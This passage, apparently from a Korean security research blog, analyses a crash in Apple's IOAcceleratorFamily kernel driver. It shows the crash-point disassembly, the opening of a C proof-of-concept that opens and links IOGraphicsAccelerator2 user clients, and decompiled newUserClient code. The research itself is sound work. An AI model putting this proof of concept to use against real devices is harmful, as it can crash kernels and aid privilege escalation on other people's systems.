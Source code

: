 ```nasm
com.apple.iokit.IOAcceleratorFamily:__text:FFFFFFF006CFEA8C                 STR             X0, [X20,#8] <---- CRASH POINT !!!!
com.apple.iokit.IOAcceleratorFamily:__text:FFFFFFF006CFEA90                 B               loc_FFFFFFF006CFEA00
```

돌아와서 POC 코드를 다시한번 살펴보자.

## 1. IOGraphicsAccelerator2 서비스 클라이언트 연결

먼저 `IOServiceGetMatchingService` 함수로 그래픽 가속화 관련 서비스인 IOGraphicsAccelerator2 서비스를 찾는다. 이후로 IOServiceOpen 함수를 호출하는데, 보통 사용자 공간 프로세스가 커널에 등록된 I/O 서비스 드라이버에 유저 클라이언트를 여는데 주로 활용된다. 

그리고 `IOConnectAddClient` 함수를 호출하여 해당 타입으로 열린 각각의 유저 클라이언트는 핸들을 서로 연결시켜, 한 쪽이 다른 쪽이 만든 리소스나 매핑을 이용할 수 있도록 만든다.

```c
void poc() {
	kern_return_t kr;

	io_service_t IOGraphicsAccelerator2 = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOGraphicsAccelerator2"));
	assert(IOGraphicsAccelerator2 != IO_OBJECT_NULL);
	io_connect_t IOAccelCommandQueue2 = MACH_PORT_NULL;
	IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelCommandQueue2_type, &IOAccelCommandQueue2);
	assert(IOAccelCommandQueue2 != IO_OBJECT_NULL);
	io_connect_t IOAccelSharedUserClient2 = MACH_PORT_NULL;
	IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelSharedUserClient2_type, &IOAccelSharedUserClient2);
	assert(IOAccelSharedUserClient2 != IO_OBJECT_NULL);

	kr = IOConnectAddClient(IOAccelCommandQueue2, IOAccelSharedUserClient2);
	assert(kr == KERN_SUCCESS);
```

IOServiceOpen 함수는 3번째 인자에 user_client 타입이 필요로 하는데, 
IOGraphicsAccelerator2 서비스의 경우, kernelcache에서 `IOGraphicsAccelerator2::newUserClient` 함수를 통해 각 타입에 따라 어떤 역할을 수행하는지 알 수 있다.

newUserClient 함수를 더 정확히 살펴봐야 알겠지만,
IOGraphicsAccelerator2 관련 서비스의 userclient 타입 2는 `IOAccelContext2` 객체를, 타입 5는 `IOAccelDevice2` 객체를 각각 초기화하는것을 볼 수 있었다.

```cpp
__int64 __fastcall IOGraphicsAccelerator2::newUserClient(
        struct_a1 *a1,
        task *a2,
        __int64 securityID,
        __int64 type,
        IOUserClient **a5)
{
  __int64 v9; // x19
  proc *bsdtask_info_9; // x0
  __int64 v11; // x27
  int CountWithPID; // w24
  int v13; // w25
  int v14; // w26
  int v15; // w0
  unsigned int v16; // w9
  unsigned int dwordBBC; // w8
  __int64 v18; // x0
  IOUserClient *v19; // x23
  __int64 v20; // x0
  __int64 v21; // x0
  __int64 v22; // x0
```